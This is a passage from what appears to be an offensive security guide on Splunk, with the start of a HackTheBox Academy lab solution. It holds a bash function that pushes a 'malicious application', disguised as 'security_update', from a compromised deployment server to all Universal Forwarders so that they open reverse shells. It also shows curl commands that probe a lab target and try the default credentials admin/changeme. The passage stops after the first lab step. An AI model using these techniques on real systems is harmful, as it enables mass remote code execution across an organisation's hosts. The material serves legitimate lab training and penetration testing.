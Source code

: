 #### Forwarder Mass Deployment
```bash
# Deploy malicious application to all Universal Forwarders
deploy_to_forwarders() {
    local deployment_server=$1
    local app_name=$2
    
    echo "[+] Deploying application to Universal Forwarders"
    
    # Copy application to deployment-apps directory (requires file system access)
    # This step assumes compromise of the deployment server
    
    echo "[+] Application deployment steps:"
    echo "1. Copy application to \$SPLUNK_HOME/etc/deployment-apps/"
    echo "2. Application will be automatically pushed to all connected forwarders"
    echo "3. Forwarders will restart and execute scripted inputs"
    echo "4. Multiple reverse shell connections will be established"
    
    # Via Splunk API (if available)
    deployment_config='{
        "name": "'$app_name'",
        "disabled": false,
        "repository_location": "/opt/splunk/etc/deployment-apps/'$app_name'"
    }'
    
    curl -s -b cookies.txt \
      -H "Content-Type: application/json" \
      -d "$deployment_config" \
      "$deployment_server/services/deployment/server/applications/$app_name"
    
    echo "[+] Deployment initiated - monitoring for reverse shell connections"
}

# deploy_to_forwarders "http://deployment-server:8000" "security_update"
```

---

## HTB Academy Lab Solutions

### Lab 1: Splunk RCE and Flag Retrieval
**Question:** "Attack the Splunk target and gain remote code execution. Submit the contents of the flag.txt file in the c:\loot directory."

**Solution Methodology:**

#### Step 1: Environment Setup and Authentication
```bash
# Verify Splunk accessibility
curl -I http://10.129.201.50:8000/

# Test for unauthenticated access (Free license)
curl -s http://10.129.201.50:8000/en-US/app/launcher/home | \
  grep -q "Splunk" && echo "[!] Unauthenticated access detected"

# If authentication required, test default credentials
curl -c cookies.txt -d "username=admin&password=changeme" \
  http://10.129.201.50:8000/en-US/account/login
```
